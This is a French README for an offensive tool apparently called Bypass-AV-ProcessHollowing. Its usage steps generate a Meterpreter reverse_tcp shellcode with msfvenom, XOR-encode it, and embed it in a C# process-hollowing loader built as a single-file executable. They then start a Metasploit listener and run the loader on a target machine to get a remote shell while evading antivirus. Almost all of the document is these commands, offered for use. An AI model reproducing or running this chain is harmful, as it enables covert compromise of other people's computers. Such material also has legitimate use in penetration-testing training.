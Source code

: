 <h3 align="center">Bypass-AV-ProcessHollowing</h3>

  <p align="center">
    Ce projet est basé sur le dépôt Github de chvancooten :
    <br />
    <a href="https://github.com/chvancooten/OSEP-Code-Snippets"><strong>https://github.com/chvancooten/OSEP-Code-Snippets</strong></a>
  </p>
</div>







### Utilisation

1. Générer un meterpreter Metasploit sous la forme d'un shellcode avec msfvenom :
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<SERVER> LPORT=<PORT> -f csharp
```
2. Créer un nouveau projet DotNet dans Visual Studio Code :
```  
dotnet new console
```
3. Remplacer le contenu de Program.cs par le contenu du fichier XorCipher.cs et remplacer le shellcode par celui généré avec msfvenom
4. Générer la solution sous la forme d'un fichier PE avec ses librairies embarquée :
```
dotnet publish -p:PublishSingleFile=true -r win-x64 -c Release --self-contained true -p:PublishTrimmed=true
```
5. Exécuter le fichier compilé dans une invite de commande :
```
.\XorCipher.exe
```
6. Créer un second projet DotNet dans une autre instance de Visual Studio Code :
```
dotnet new console
```
7. Remplacer le contenu de Program.cs par le contenu du fichier ProcessHollowing.cs et remplacer le shellcode par celui généré avec XorCipher.exe
8. Générer la solution sous la forme d'un fichier PE avec ses librairies embarquée :
```
dotnet publish -p:PublishSingleFile=true -r win-x64 -c Release --self-contained true -p:PublishTrimmed=true
```
9. Lancer un listener dans la console metasploit :
```
msfconsole
use multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost <SERVER>
set lport <PORT>
exploit
```
10. Exécuter le fichier ProcessHollowing.exe sur le poste cible puis savourer un délicieux cookie aux pépites de chocolat :)
